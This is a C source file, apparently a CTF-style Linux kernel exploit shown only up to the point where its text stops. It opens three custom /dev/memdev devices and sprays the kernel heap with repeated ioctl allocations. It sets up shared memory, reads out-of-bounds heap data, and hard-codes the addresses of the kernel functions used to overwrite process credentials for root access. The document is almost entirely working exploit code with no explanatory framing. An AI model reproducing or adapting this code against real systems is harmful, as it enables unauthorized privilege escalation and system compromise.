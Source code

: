 ```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <limits.h>
#include <inttypes.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define oversize 0x400
struct mem_init {
    unsigned int idx;
    unsigned int len;
};

int prepare_kernel_creds = 0xc1082e20;
int commit_creds = 0xc1082b60; 

int main(){
    int fd[3],ret,i;
    int shmid;
    int *map;
    void *buf,*readbuf;
    struct mem_init arg;
    fd[0] = open("/dev/memdev0",O_RDWR);
    fd[1] = open("/dev/memdev1",O_RDWR);
    fd[2] = open("/dev/memdev2",O_RDWR);
    for(i=0;i<3;i++)
        if(fd[i] < 0){
            printf("[-]open driver failed!\n");
            return 0;
        }
    printf("[+]open driver success\n");

    //prepare heap
    arg.idx = 0;
    arg.len = 92+0x40;
    for(i=0;i<1000;i++){
        ioctl(fd[0],0,&arg);
    }
    arg.idx = 1;
    ioctl(fd[1],0,&arg);
    arg.idx = 2;
    ioctl(fd[2],0,&arg);

    buf = malloc(oversize);
    readbuf = malloc(oversize);

    shmid = shmget(IPC_PRIVATE, 1024, IPC_CREAT | 0666);
    printf("%d\n",shmid);
    arg.idx = 3;
    ioctl(fd[0],0,&arg);
    printf("[+] heap prepare OK!\n");


    read(fd[2],readbuf,oversize); //read heap data
    memcpy(buf,readbuf,oversize); 

```